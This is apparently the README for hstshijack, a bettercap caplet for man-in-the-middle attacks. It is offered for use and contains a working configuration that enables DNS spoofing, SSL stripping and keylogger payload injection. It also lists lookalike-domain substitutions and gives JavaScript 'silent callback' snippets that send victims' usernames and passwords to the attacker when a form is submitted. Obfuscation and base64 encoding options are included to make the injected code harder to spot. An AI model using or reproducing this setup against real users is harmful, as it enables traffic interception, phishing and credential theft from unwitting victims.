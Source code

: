 

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.ignore          *
set hstshijack.targets         *.com, *.co.uk
set hstshijack.replacements    *.corn,*.cc.uk
#set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  *.corn,*.cc.uk

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload that replaces targeted hostnames with spoofed ones, and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

### Custom payloads

You can also inject your own JavaScript payloads into HTML & JS files from specific hosts by assigning them to the `hstshijack.payloads` variable.

Example:

```sh
hstshijack.payloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https` instances in `<a>`, `<form>` and `<iframe>` elements.

### Obfuscation

By setting `hstshijack.obfuscate` to `true`, any instance in your payloads beginning with `obf_` will be obfuscated automatically.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJW")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that send data to bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads (`/` will not be written).

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on the requested (original and spoofed) host(s). If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

Note that if the hostnames you are whitelisting are HSTS preloaded, you have to send the whitelist callback to the spoofed hostnames, otherwise the browser will enforce a HTTPS connection, and bettercap will not be able to intercept the requests.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       *.com, blockchain.info,*.blockchain.info
set hstshijack.replacements  *.corn,blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
